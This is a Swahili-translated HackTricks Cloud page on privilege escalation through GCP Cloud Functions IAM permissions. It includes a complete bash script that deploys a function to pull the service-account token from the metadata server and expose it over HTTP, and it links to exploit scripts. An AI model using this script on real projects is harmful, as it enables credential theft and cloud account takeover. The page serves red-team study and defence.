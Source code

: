 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Maelezo zaidi kuhusu Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye ruhusa hizi anaweza **kuunda Cloud Function mpya yenye msimbo wa (mbaya) na kuipatia Akaunti ya Huduma**. Kisha, vuja token ya Akaunti ya Huduma kutoka kwenye metadata ili kupandisha ruhusa kwake.\
Ruhusa zingine za kuanzisha kazi hiyo zinaweza kuhitajika.

Mifano ya skripti za kutumia mbinu hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) na [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) na faili ya .zip iliyojengwa tayari inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye ruhusa hizi anaweza **kubadilisha msimbo wa Kazi na hata kubadilisha akaunti ya huduma iliyounganishwa** kwa lengo la kuhamasisha token.

{% hint style="danger" %}
Ili kupeleka kazi za wingu, pia utahitaji ruhusa za actAs juu ya akaunti ya huduma ya kawaida ya kompyuta au juu ya akaunti ya huduma inayotumika kujenga picha.
{% endhint %}

Ruhusa za ziada kama ruhusa ya `.call` kwa toleo la 1 la cloudfunctions au jukumu `role/run.invoker` ili kuanzisha kazi hiyo zinaweza kuhitajika.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ikiwa unapata kosa `Permission 'run.services.setIamPolicy' denied on resource...` ni kwa sababu unatumia param `--allow-unauthenticated` na huna ruhusa za kutosha kwa hiyo.
{% endhint %}

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Kwa ruhusa hii unaweza kupata **URL iliyosainiwa ili uweze kupakia faili kwenye mfuko wa kazi (lakini msimbo wa kazi hautabadilishwa, bado unahitaji kuisasisha)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Sijui jinsi ruhusa hii pekee ilivyo na manufaa kutoka kwa mtazamo wa mshambuliaji, lakini ni vizuri kujua.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Jipe ruhusa yoyote kati ya **`.update`** au **`.create`** zilizotangulia ili kupandisha hadhi.

### `cloudfunctions.functions.update`

Kuwa na ruhusa za **`cloudfunctions`** pekee, bila **`iam.serviceAccounts.actAs`** huwezi **kusaidia kusasisha kazi HII SI VALID PRIVESC.**

### Ruhusa za Kuandika kwenye Bucket

Unaweza kufikiria kwamba mshambuliaji mwenye **ruhusa za kuandika kwenye bucket** ambapo msimbo wa Cloud Functions umehifadhiwa ataweza **kubadilisha msimbo kwa kufuta** `function_code.zip` na kisha kufanya kazi hiyo **itekeleze msimbo wowote**.

{% hint style="success" %}
**Hata hivyo, hii si kweli, kufuta tu msimbo ndani ya bucket hakutabadilisha msimbo unaotekelezwa.**
{% endhint %}

## Marejeo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
